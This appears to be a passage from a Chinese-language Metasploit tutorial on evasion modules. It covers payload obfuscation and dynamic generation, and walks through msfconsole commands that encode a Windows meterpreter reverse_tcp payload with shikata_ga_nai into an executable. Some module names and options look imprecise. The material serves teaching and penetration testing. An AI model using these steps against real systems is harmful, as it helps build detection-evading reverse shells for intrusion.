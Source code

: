 - 指令混淆

  ：修改 Payload 的指令集或代码结构，使其难以被静态分析和检测系统识别。

  - 例如，`evasion/x86/obsfucate` 可能会对 Payload 进行指令混淆。

#### 3.4. **动态生成（Dynamic Generation）**

- 动态 Payload 生成

  ：根据运行时环境动态生成 Payload，以降低静态检测的成功率。

  - 例如，某些 evasion 模块可以动态生成不同的代码变体。

### 4. **使用 Evasion 模块的步骤**

1. **选择 Evasion 模块**： 使用 `use` 命令选择一个 Evasion 模块。例如，要使用一个编码模块：

   ```
   msf > use encoder/x86/shikata_ga_nai
   ```
   
2. **查看模块信息**： 使用 `info` 命令查看 Evasion 模块的详细信息，包括功能和选项：

   ```
   msf encoder/shikata_ga_nai > info
   ```
   
3. **配置 Evasion 模块**： 根据需要配置模块选项，例如设置编码次数：

   ```
   msf encoder/shikata_ga_nai > set ENCODING [encoding options]
   ```
   
4. **选择 Payload 模块**： 选择需要编码或加密的 Payload 模块：

   ```
   msf > use payload/windows/meterpreter/reverse_tcp
   ```
   
5. **配置 Payload 模块**： 配置 Payload 的选项，例如目标主机和监听端口：

   ```
   msf payload(meterpreter/reverse_tcp) > set LHOST [your IP]
   msf payload(meterpreter/reverse_tcp) > set LPORT [port number]
   ```

6. **生成 Evasion Payload**： 生成经过编码或加密的 Payload：

   ```
   msf payload(meterpreter/reverse_tcp) > generate -e x86/shikata_ga_nai -i 5 -f /path/to/output.exe
   ```
   
   其中，`-e` 参数指定了使用的编码器，`-i` 参数指定编码的次数，`-f` 参数指定生成的文件路径。

### 5. **Evasion 模块的常见选项**

每个 Evasion 模块可能具有不同的选项。常见选项包括：

- **`-e`**：指定使用的编码器或加密技术。
- **`-i`**：指定编码或加密的次数。
- **`-f`**：指定输出文件的路径。
- **`TARGET`**：指定目标架构或环境（如 `x86`、`x64`）。
